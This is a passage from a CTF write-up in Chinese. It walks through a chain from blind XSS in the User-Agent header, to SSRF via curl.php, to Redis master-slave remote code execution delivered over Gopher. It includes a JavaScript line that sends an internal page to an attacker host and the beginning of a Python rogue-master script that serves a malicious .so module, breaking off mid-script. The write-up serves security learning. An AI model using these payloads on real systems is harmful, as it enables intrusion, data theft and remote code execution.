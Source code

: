 测试了半天也没有结果，然后放了hint是UA……

Fuzz了一下UA，发现是XSS盲打

![1568028201080.png](https://xzfile.aliyuncs.com/media/upload/picture/20190910111119-a914cfea-d378-1.png)


发现Referer来自127.0.0.1:8080

访问8080端口：

```javascript
fetch('http://127.0.0.1:8080').then(r=>r.text()).then(d=>{fetch('http://IP:9999/'+btoa(d))})
```

提示robots.txt


![1568028747343.png](https://xzfile.aliyuncs.com/media/upload/picture/20190910111151-bc06d972-d378-1.png)

访问robots.txt有一个curl.php，访问后发现是一个没有防御的SSRF

![1568028519767.png](https://xzfile.aliyuncs.com/media/upload/picture/20190910111208-c61c7386-d378-1.png)

尝试读本地文件，读了一堆没有发现Flag

然后根据Nginx猜测是攻击FPM，试了几次没有成功

然后试着扫一下端口和内网C段，通过Beef hook了题目主机，扫描了一下发现隔壁主机开着6379（没有截图，写WP时bot已经挂了）

未授权访问是肯定的，写Shell或Crontab感觉不太可能，所以联想到了Redis master-slave-sync的RCE，但是这里由于在内网只能通过Gopher协议访问

研究了一下Redis RCE脚本，发现是在本机模拟了文件同步操作的master服务器，然后向远程6379服务器发送了slave of 指令，接着通过主从复制传送了执行系统命令的`.so` module，最后通过6379发送load module并执行命令

所以只需要在VPS上模拟master服务器，然后通过Gopher把发往6379的数据包打过去

监听VPS 9999端口的脚本

```python
import socket
import sys
import struct
import re

payload = open('exp.so', 'r').read()

s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, struct.pack('ii', 1, 0))
s.bind(('0.0.0.0', 9999))
s.listen(5)
conn, addr = s.accept()
print(addr)

CLRF = '\r\n'

def dout(sock, msg):
    verbose = 1
    if type(msg) != bytes:
        msg = msg.encode()
    sock.send(msg)
    if verbose:
        if sys.version_info < (3, 0):
            msg = repr(msg)
        if len(msg) < 300:
            print("\033[1;32;40m[<-]\033[0m {}".format(msg))
        else:
            print("\033[1;32;40m[<-]\033[0m {}......{}".format(msg[:80], msg[-80:]))


def handle(data):
```